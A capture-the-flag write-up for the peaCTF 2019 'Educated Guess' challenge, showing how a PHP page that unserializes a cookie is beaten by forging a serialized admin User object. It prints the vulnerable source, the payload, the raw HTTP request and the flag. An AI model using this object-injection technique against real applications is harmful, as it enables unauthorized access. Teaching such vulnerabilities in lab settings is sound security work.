

# Educated Guess

## Description

There is a secured system running at http://shell1.2019.peactf.com:10085/query.php. You have obtained the source code.

## Source Code

```php
<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
<?php

// https://www.php-fig.org/psr/psr-4/

function autoload($class)
{
    include $class . '.class.php';
}

spl_autoload_register('autoload');

if (!empty($_COOKIE['user'])) {
    $user = unserialize($_COOKIE['user']);

    if ($user->is_admin()) {
        echo file_get_contents('../flag');
    } else {
        http_response_code(403);
        echo "Permission Denied";
    }
} else {
    echo "Not logged in.";
}
?>
</body>
</html>
```

## Observations

First, I navigated to the webpage at the URL that they gave me and I saw this message:



Looking at the source code, one line immediately stands out:

```php
$user = unserialize($_COOKIE['user']);
```

Untrusted input from the client is being directly unserialized and then later used to determine whether to show the flag.

Looking at the [PHP manual for unserialize](https://php.net/manual/en/function.unserialize.php), I see this warning:

```
Do not pass untrusted user input to unserialize() regardless of the options value of allowed_classes. Unserialization can result in code being loaded and executed due to object instantiation and autoloading, and a malicious user may be able to exploit this.
```

This looks like an object injection vulnerability, where the attacker can pass arbitrary serialized strings into a vulnerable `unserialize` call to load objects into the application scope. You can read more about PHP object injection [on the OWASP website](https://www.owasp.org/index.php/PHP_Object_Injection).

Because `unserialize` is being called on client input, we can provide our own serialized object through the cookie that the source code is reading.

## Solution

I wrote some PHP to get a serialized object string, guessing the shape of the class already loaded into the application scope. I guessed that the class name was `User` and the instance variable to determine admin status was named `admin`.

```php
class User {
    public $admin = True;
}

echo serialize(new User());
```

this outputs

```
O:4:"User":1:{s:5:"admin";b:1;}
```

I sent this request to the site, passing my serialized object string as the `user` cookie:

```
GET /query.php HTTP/1.1
Host: shell1.2019.peactf.com:10085
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=O:4:"User":1:{s:5:"admin"%3bb:1%3b}
```

which yielded this response

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
flag{peactf_follow_conventions_55816deeda186e9b9fa71b0f86039a54}</body>
</html>
```

Our flag was

```
flag{peactf_follow_conventions_55816deeda186e9b9fa71b0f86039a54}
```
